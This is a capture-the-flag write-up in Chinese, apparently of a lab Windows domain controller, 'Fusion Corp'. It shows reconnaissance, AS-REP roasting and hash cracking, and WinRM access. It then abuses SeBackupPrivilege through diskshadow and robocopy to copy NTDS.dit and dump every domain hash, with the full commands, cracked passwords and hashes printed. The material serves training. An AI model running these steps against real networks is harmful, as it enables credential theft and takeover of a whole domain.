

# recon
```
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 128 Simple DNS Plus
80/tcp   open  http          syn-ack ttl 128 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
|_http-title: eBusiness Bootstrap Template
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  syn-ack ttl 128 Microsoft Windows Kerberos (server time: 2026-09-09 12:48:14Z)
135/tcp  open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 128 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 128 Microsoft Windows Active Directory LDAP (Domain: fusion.corp0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 128
464/tcp  open  kpasswd5?     syn-ack ttl 128
593/tcp  open  ncacn_http    syn-ack ttl 128 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 128
3268/tcp open  ldap          syn-ack ttl 128 Microsoft Windows Active Directory LDAP (Domain: fusion.corp0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 128
3389/tcp open  ms-wbt-server syn-ack ttl 128 Microsoft Terminal Services
|_ssl-date: 2026-09-09T12:48:56+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=Fusion-DC.fusion.corp
| Issuer: commonName=Fusion-DC.fusion.corp
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-08T12:44:36
| Not valid after:  2027-03-10T12:44:36
| MD5:   ac17:2de3:e42b:ac9a:2a98:7800:9b3b:60a8
| SHA-1: 9bf7:fd97:2be2:9a1b:4adc:e2e1:21af:023b:037e:2e59
| -----BEGIN CERTIFICATE-----
| MIIC7jCCAdagAwIBAgIQURQCtsQiX5dIRlFO2/uk5jANBgkqhkiG9w0BAQsFADAg
| MR4wHAYDVQQDExVGdXNpb24tREMuZnVzaW9uLmNvcnAwHhcNMjYwOTA4MTI0NDM2
| WhcNMjcwMzEwMTI0NDM2WjAgMR4wHAYDVQQDExVGdXNpb24tREMuZnVzaW9uLmNv
| cnAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCa1OgP4Hjbfk7vBwqi
| 5ZAy/ofrXjTYN3AFcZBkRI4Y69dXoVOrYGqs+nSk+0kbPm7hOPCcciOspd7oM5xS
| lJcNizVWaPgPg6jzhl03jlQmtujHHsz+xlyqDg/AVyfiy+A2nYEg3DNYJmuXRx30
| kjXWhnOK/1STq2dsb6vlsq72AR/gxbdx0i6fCj8uTNmt4LEUP95VSsAJfkkbkP/U
| R6vHkE238UcZgdcYV7egPBTjHh/alOw3evGuzApzmIiKqHUNyw9tQ3yx64uzOGDC
| NL/8gbcGVhkRojylfrrWk/5OE4nce4CDd3w/uTESAKItsM4Enu62WfuwqoPoLvGV
| h2eFAgMBAAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDAN
| BgkqhkiG9w0BAQsFAAOCAQEAUGsFertZvhZTUXF3z/QypEc7H6aY2ESyGmTg8f8E
| 1XU3vB32Y69ajI0fnrvIVhVIZcL52hc8bXj47mN2/TJmQ5fbYSSGXA2fEJ22R/t1
| 5d8Dq9+Zw5AY4Fe/B90xtjr6/dS1Cl5dmmeh0GOHsYaQSkl+nnDq8xfo7RAq7Xcm
| ELaGpaOObsI/LGqOj5UoVrpNyUziMKMtG+MUBmvAnhBH+ly2oTzelhEnijNeEgc4
| SaXrB5IfODLQSe/FAG2iSHGKExxhy3rgirJr0excphPVkxTBY+FeI2tgBkYJRCJv
| P5FOt1Mcn98ezT0+ZqxjTM7Pmq1khJO1uHsPGHa9fnVpkw==
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: FUSION
|   NetBIOS_Domain_Name: FUSION
|   NetBIOS_Computer_Name: FUSION-DC
|   DNS_Domain_Name: fusion.corp
|   DNS_Computer_Name: Fusion-DC.fusion.corp
|   Product_Version: 10.0.17763
|_  System_Time: 2026-09-09T12:48:17+00:00
Service Info: Host: FUSION-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
标准的 DC, 但开放有 web 页面. TTL 均为 128, 符合 windows 一跳后预期
1. 域名: `fusion.corp`
2. 主机名: `Fusion-DC.fusion.corp`

以上 NMAP 结果并没有给出 `5985` 即 winrm 开放, 但其实际上是开放的:
```sh
nmap -p5985 fusion.corp
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-09-09 13:39 UTC
Nmap scan report for fusion.corp (10.67.134.232)
Host is up (0.00051s latency).
rDNS record for 10.67.134.232: Fusion-DC.fusion.corp

PORT     STATE SERVICE
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
```

## smb
尝试 guest 登陆, 需要一组有效的凭据
```sh
nxc smb fusion.corp -u guest -p ''
SMB         10.67.134.232   445    FUSION-DC        [*] Windows 10 / Server 2019 Build 17763 x64 (name:FUSION-DC) (domain:fusion.corp) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.67.134.232   445    FUSION-DC        [-] fusion.corp\guest: STATUS_ACCOUNT_DISABLED
nxc smb fusion.corp  -u 'absolutenotausername' -p ''
SMB         10.67.134.232   445    FUSION-DC        [*] Windows 10 / Server 2019 Build 17763 x64 (name:FUSION-DC) (domain:fusion.corp) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.67.134.232   445    FUSION-DC        [-] fusion.corp\absolutenotausername: STATUS_LOGON_FAILURE 
```

## ldap
```sh
ldapsearch -x -H ldap://10.67.134.232 -s base
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: ALL
#
#
dn:
domainFunctionality: 7
forestFunctionality: 7
domainControllerFunctionality: 7
rootDomainNamingContext: DC=fusion,DC=corp
ldapServiceName: fusion.corp:fusion-dc$@FUSION.CORP
...
subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=fusion,DC=corp
serverName: CN=FUSION-DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Con
 figuration,DC=fusion,DC=corp
schemaNamingContext: CN=Schema,CN=Configuration,DC=fusion,DC=corp
namingContexts: DC=fusion,DC=corp
namingContexts: CN=Configuration,DC=fusion,DC=corp
namingContexts: CN=Schema,CN=Configuration,DC=fusion,DC=corp
namingContexts: DC=DomainDnsZones,DC=fusion,DC=corp
namingContexts: DC=ForestDnsZones,DC=fusion,DC=corp
isSynchronized: TRUE
highestCommittedUSN: 69677
dsServiceName: CN=NTDS Settings,CN=FUSION-DC,CN=Servers,CN=Default-First-Site-
 Name,CN=Sites,CN=Configuration,DC=fusion,DC=corp
dnsHostName: Fusion-DC.fusion.corp
defaultNamingContext: DC=fusion,DC=corp
currentTime: 20260909130613.0Z
configurationNamingContext: CN=Configuration,DC=fusion,DC=corp
```
可以空绑定, 但进一步查询需要权限:
```sh
ldapsearch -x -H ldap://10.67.134.232 -b 'DC=fusion,DC=corp' "(objectClass=user)" sAMAccountName
# extended LDIF
#
# LDAPv3
# base <DC=fusion,DC=corp> with scope subtree
# filter: (objectClass=user)
# requesting: sAMAccountName 
#
# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A69, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563
# numResponses: 1
```


# web

一家商业公司

## tech stack
```http
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Thu, 25 Oct 2018 06:08:00 GMT
Accept-Ranges: bytes
ETag: "0e0db14296cd41:0"
Server: Microsoft-IIS/10.0
Date: Wed, 09 Sep 2026 12:58:12 GMT
Content-Length: 53888
```

标准 IIS, 没什么有趣的信息

## leak
目录扫描给出了一个目录: `backup`
```sh
dirsearch -u http://10.67.134.232

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /root/wrk/reports/http_10.67.134.232/_26-09-09_13-03-07.txt

Target: http://10.67.134.232/

[13:03:07] Starting: 
[13:03:07] 301 -  147B  - /js  ->  http://10.67.134.232/js/
[13:03:07] 403 -  312B  - /%2e%2e//google.com
[13:03:07] 403 -  312B  - /.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[13:03:20] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[13:03:42] 301 -  151B  - /backup  ->  http://10.67.134.232/backup/
[13:03:42] 200 -  265B  - /Backup/
[13:03:42] 200 -  265B  - /backup/
[13:03:45] 403 -  312B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[13:03:50] 301 -  148B  - /css  ->  http://10.67.134.232/css/
[13:04:03] 301 -  148B  - /img  ->  http://10.67.134.232/img/
[13:04:07] 200 -  241B  - /js/
[13:04:08] 301 -  148B  - /lib  ->  http://10.67.134.232/lib/
[13:04:08] 200 -    1KB - /lib/
```

其中有一个`.ods`文件:


打开后有多个用户名, 命名规则为: 名首字母+姓


提取出来:
```
jmickel
aarnold
llinda
jpowel
dvroslav
tjefferson
nmaurin
mladovic
lparker
kgarland
dpertersen
```

# asrep-roasting
通过 kerberos 测试用户的同时尝试 asrep-roasting
```sh
GetNPUsers.py -usersfile ./users -request -format hashcat -no-pass fusion.corp/
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$lparker@FUSION.CORP:85dcea57e67f9c393823931c2b4603e3$468f20f9b451bb54b17be8a5888ac4a2acc55d66389d14c1d56db9d52488230dc39c1b8656d5b22c6eb996c0ed510116f86788eb47623f782651107917cfadd2550d432a02b85d63fe0e26b72cfafffcfc0519315afcea363ea4b9970945963a811d14c0df7256bc2e7410a34c920e7da7119376c30647afff4d58a869086a84cc5fe92eb7226d3801a683c43ac402d706cfb7b94c493f64241b6d86a62d3898de95e864f1240757005da2ca5e35ad30a5dc7b3743197a9c6d69459f8bb3315bcb944e224b2fb1714fa1574b83d286b49845baae3f2c8af4511663c55f1593f0366ae8f18e8e37bf3890
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

只有一个用户名有效: `lparker`, 尝试破解哈希:
```sh
$krb5asrep$23$lparker@FUSION.CORP:85dcea57e67f9c393823931c2b4603e3$468f20f9b451bb54b17be8a5888ac4a2acc55d66389d14c1d56db9d52488230dc39c1b8656d5b22c6eb996c0ed510116f86788eb47623f782651107917cfadd2550d432a02b85d63fe0e26b72cfafffcfc0519315afcea363ea4b9970945963a811d14c0df7256bc2e7410a34c920e7da7119376c30647afff4d58a869086a84cc5fe92eb7226d3801a683c43ac402d706cfb7b94c493f64241b6d86a62d3898de95e864f1240757005da2ca5e35ad30a5dc7b3743197a9c6d69459f8bb3315bcb944e224b2fb1714fa1574b83d286b49845baae3f2c8af4511663c55f1593f0366ae8f18e8e37bf3890:!!abbylvzsvs2k6!

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$lparker@FUSION.CORP:85dcea57e67f9c393...bf3890
Time.Started.....: Wed Sep  9 21:44:31 2026 (0 secs)
Time.Estimated...: Wed Sep  9 21:44:31 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/opt/seclists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#02........: 15500.6 kH/s (0.61ms) @ Accel:1024 Loops:1 Thr:32 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2490368/14344384 (17.36%)
Rejected.........: 0/2490368 (0.00%)
Restore.Point....: 1867776/14344384 (13.02%)
Restore.Sub.#02..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#02...: demidoodles -> zoeemma2007
Hardware.Mon.SMC.: Fan0: 0%, Fan1: 0%
Hardware.Mon.#02.: Util: 81% Pwr:308mW

Started: Wed Sep  9 21:44:28 2026
Stopped: Wed Sep  9 21:44:32 2026
```

得到凭据: `lparker`:`!!abbylvzsvs2k6!`

# act as lparker

```sh
nxc smb fusion.corp -u lparker -p '!!abbylvzsvs2k6!' --shares
SMB         10.67.153.249   445    FUSION-DC        [*] Windows 10 / Server 2019 Build 17763 x64 (name:FUSION-DC) (domain:fusion.corp) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.67.153.249   445    FUSION-DC        [+] fusion.corp\lparker:!!abbylvzsvs2k6! 
SMB         10.67.153.249   445    FUSION-DC        [*] Enumerated shares
SMB         10.67.153.249   445    FUSION-DC        Share           Permissions     Remark
SMB         10.67.153.249   445    FUSION-DC        -----           -----------     ------
SMB         10.67.153.249   445    FUSION-DC        ADMIN$                          Remote Admin
SMB         10.67.153.249   445    FUSION-DC        C$                              Default share
SMB         10.67.153.249   445    FUSION-DC        IPC$            READ            Remote IPC
SMB         10.67.153.249   445    FUSION-DC        NETLOGON        READ            Logon server share 
SMB         10.67.153.249   445    FUSION-DC        SYSVOL          READ            Logon server share 
```

重新进行枚举, 没什么有趣的共享, 查看用户:
```sh
nxc smb fusion.corp -u lparker -p '!!abbylvzsvs2k6!' --users 
SMB         10.67.153.249   445    FUSION-DC        [*] Windows 10 / Server 2019 Build 17763 x64 (name:FUSION-DC) (domain:fusion.corp) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.67.153.249   445    FUSION-DC        [+] fusion.corp\lparker:!!abbylvzsvs2k6! 
SMB         10.67.153.249   445    FUSION-DC        -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.67.153.249   445    FUSION-DC        Administrator                 2021-03-04 16:13:07 0       Built-in account for administering the computer/domain 
SMB         10.67.153.249   445    FUSION-DC        Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.67.153.249   445    FUSION-DC        krbtgt                        2021-03-03 12:43:43 0       Key Distribution Center Service Account 
SMB         10.67.153.249   445    FUSION-DC        lparker                       2021-03-03 13:37:40 0        
SMB         10.67.153.249   445    FUSION-DC        jmurphy                       2021-03-03 13:41:24 0       Password set to u8WC3!kLsgw=#bRY
```

除去 Administrator 共两个用户, 根据描述得到另一组凭据: `jmurphy`:`u8WC3!kLsgw=#bRY`

# act as jmurphy
```sh
nxc winrm fusion.corp -u jmurphy -p 'u8WC3!kLsgw=#bRY' 
WINRM       10.67.153.249   5985   FUSION-DC        [*] Windows 10 / Server 2019 Build 17763 (name:FUSION-DC) (domain:fusion.corp) 
WINRM       10.67.153.249   5985   FUSION-DC        [+] fusion.corp\jmurphy:u8WC3!kLsgw=#bRY (Pwn3d!)

bloodyAD -d fusion.corp -u 'jmurphy' -p 'u8WC3!kLsgw=#bRY' --dc-ip 10.67.153.249 --host fusion.corp  get  membership jmurphy

distinguishedName: CN=Users,CN=Builtin,DC=fusion,DC=corp
objectSid: S-1-5-32-545
sAMAccountName: Users

distinguishedName: CN=Backup Operators,CN=Builtin,DC=fusion,DC=corp
objectSid: S-1-5-32-551
sAMAccountName: Backup Operators

distinguishedName: CN=Remote Management Users,CN=Builtin,DC=fusion,DC=corp
objectSid: S-1-5-32-580
sAMAccountName: Remote Management Users

distinguishedName: CN=Domain Users,CN=Users,DC=fusion,DC=corp
objectSid: S-1-5-21-1898838421-3672757654-990739655-513
sAMAccountName: Domain Users
```

有趣的是, 除了 `Remote Management Users`, 用户 jmurphy 属于 [Backup Operators](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#backup-operators) 组

## shell as jmurphy
```pwsh
*Evil-WinRM* PS C:\Users\jmurphy\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== =============================================
fusion\jmurphy S-1-5-21-1898838421-3672757654-990739655-1104


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

## SeBackupPrivilege


### SAM dump
复制 SAM 和 SYSTEM, 传输到本地破解:
```pwsh
*Evil-WinRM* PS C:\Users\jmurphy\Documents> reg save HKLM\sam .\sam
The operation completed successfully.
*Evil-WinRM* PS C:\Users\jmurphy\Documents> reg save HKLM\system .\system
The operation completed successfully.
```

```sh
secretsdump.py -sam ./sam -system ./system LOCAL
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xeafd8ccae4277851fc8684b967747318
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2182eed0101516d0a206b98c579565e6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up...
```

但实际上无法使用该 hash 进行认证, 原因很简单: **SAM 存储的是机器本地的账户数据, 对于 AD 数据我们需要 NTDS.dit**


### NTDS.dit
```txt
set context persistent nowriters
set metadata c:\Users\jmurphy\temp\metadata.cab
add volume c: alias trophy
create
expose %trophy% x:
```
一个方法为使用卷影拷贝:
```pwsh
PS C:\Users\jmurphy> diskshadow /s sd
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  FUSION-DC,  9/9/2026 8:01:51 AM

-> set context persistent nowriters
-> set metadata c:\Users\jmurphy\temp\metadata.cab
-> add volume c: alias trophy
-> create
Alias trophy for shadow ID {083c2c5c-4104-40bc-a4a1-cb213446267a} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {f3986584-bbcb-4512-ba3a-e10096caa75c} set as environment variable.

Querying all shadow copies with the shadow copy set ID {f3986584-bbcb-4512-ba3a-e10096caa75c}

	* Shadow copy ID = {083c2c5c-4104-40bc-a4a1-cb213446267a}		%trophy%
		- Shadow copy set: {f3986584-bbcb-4512-ba3a-e10096caa75c}	%VSS_SHADOW_SET%
		- Original count of shadow copies = 1
		- Original volume name: \\?\Volume{66a659a9-0000-0000-0000-602200000000}\ [C:\]
		- Creation time: 9/9/2026 8:01:54 AM
		- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
		- Originating machine: Fusion-DC.fusion.corp
		- Service machine: Fusion-DC.fusion.corp
		- Not exposed
		- Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
		- Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %trophy% x:
-> %trophy% = {083c2c5c-4104-40bc-a4a1-cb213446267a}
The shadow copy was successfully exposed as x:\.
->

robocopy /b x:\windows\ntds . ntds.dit
------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :   16.00 m   16.00 m         0         0         0         0
   Times :   0:00:01   0:00:01                       0:00:00   0:00:00


   Speed :            11297788 Bytes/sec.
   Speed :             646.464 MegaBytes/min.
   Ended : Wednesday, September 9, 2026 8:02:23 AM
```

Let's go dump!
```sh
secretsdump.py -system ./system -ntds ./ntds.dit LOCAL
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xeafd8ccae4277851fc8684b967747318
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 76cf6bbf02e743fac12666e5a41342a7
[*] Reading and decrypting hashes from ./ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9653b02d945329c7270525c4c2a69c67:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
FUSION-DC$:1000:aad3b435b51404eeaad3b435b51404ee:06dad9b238c644fdc20c7633b82a72c6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:feabe44b40ad2341cdef1fd95297ef38:::
fusion.corp\lparker:1103:aad3b435b51404eeaad3b435b51404ee:5a2ed7b4bb2cd206cc884319b97b6ce8:::
fusion.corp\jmurphy:1104:aad3b435b51404eeaad3b435b51404ee:69c62e471cf61441bb80c5af410a17a3:::
[*] Kerberos keys from ./ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:4db79e601e451bea7bb01d0a8a1b5d2950992b3d2e3e750ab1f3c93f2110a2e1
Administrator:aes128-cts-hmac-sha1-96:c0006e6cbd625c775cb9971c711d6ea8
Administrator:des-cbc-md5:d64f8c131997a42a
FUSION-DC$:aes256-cts-hmac-sha1-96:3512e0b58927d24c67b6d64f3d1b71e392b7d3465ae8e9a9bc21158e53a75088
FUSION-DC$:aes128-cts-hmac-sha1-96:70a93c812e563eb869ba00bcd892f76a
FUSION-DC$:des-cbc-md5:04b9ef07d9e0a279
krbtgt:aes256-cts-hmac-sha1-96:82e655601984d4d9d3fee50c9809c3a953a584a5949c6e82e5626340df2371ad
krbtgt:aes128-cts-hmac-sha1-96:63bf9a2734e81f83ed6ccb1a8982882c
krbtgt:des-cbc-md5:167a91b383cb104a
fusion.corp\lparker:aes256-cts-hmac-sha1-96:4c3daa8ed0c9f262289be9af7e35aeefe0f1e63458685c0130ef551b9a45e19a
fusion.corp\lparker:aes128-cts-hmac-sha1-96:4e918d7516a7fb9d17824f21a662a9dd
fusion.corp\lparker:des-cbc-md5:7c154cb3bf46d904
fusion.corp\jmurphy:aes256-cts-hmac-sha1-96:7f08daa9702156b2ad2438c272f73457f1dadfcb3837ab6a92d90b409d6f3150
fusion.corp\jmurphy:aes128-cts-hmac-sha1-96:c757288dab94bf7d0d26e88b7a16b3f0
fusion.corp\jmurphy:des-cbc-md5:5e64c22554988937
```

# shell as Administrator

```pwsh
PS C:\Users\Administrator\Desktop> whoami /all

USER INFORMATION
----------------

User Name            SID
==================== ============================================
fusion\administrator S-1-5-21-1898838421-3672757654-990739655-500


GROUP INFORMATION
-----------------

Group Name                                    Type             SID                                          Attributes
============================================= ================ ============================================ ===============================================================
Everyone                                      Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                        Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                                 Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access    Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                          Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users              Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
FUSION\Domain Admins                          Group            S-1-5-21-1898838421-3672757654-990739655-512 Mandatory group, Enabled by default, Enabled group
FUSION\Group Policy Creator Owners            Group            S-1-5-21-1898838421-3672757654-990739655-520 Mandatory group, Enabled by default, Enabled group
FUSION\Schema Admins                          Group            S-1-5-21-1898838421-3672757654-990739655-518 Mandatory group, Enabled by default, Enabled group
FUSION\Enterprise Admins                      Group            S-1-5-21-1898838421-3672757654-990739655-519 Mandatory group, Enabled by default, Enabled group
FUSION\Denied RODC Password Replication Group Alias            S-1-5-21-1898838421-3672757654-990739655-572 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication              Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level          Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled


PS C:\Users\Administrator\Desktop> ipconfig

Windows IP Configuration

Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : ec2.internal
   Link-local IPv6 Address . . . . . : fe80::985e:63d:c0fa:2957%4
   IPv4 Address. . . . . . . . . . . : 10.67.153.186
   Subnet Mask . . . . . . . . . . . : 255.255.192.0
   Default Gateway . . . . . . . . . : 10.67.128.1
```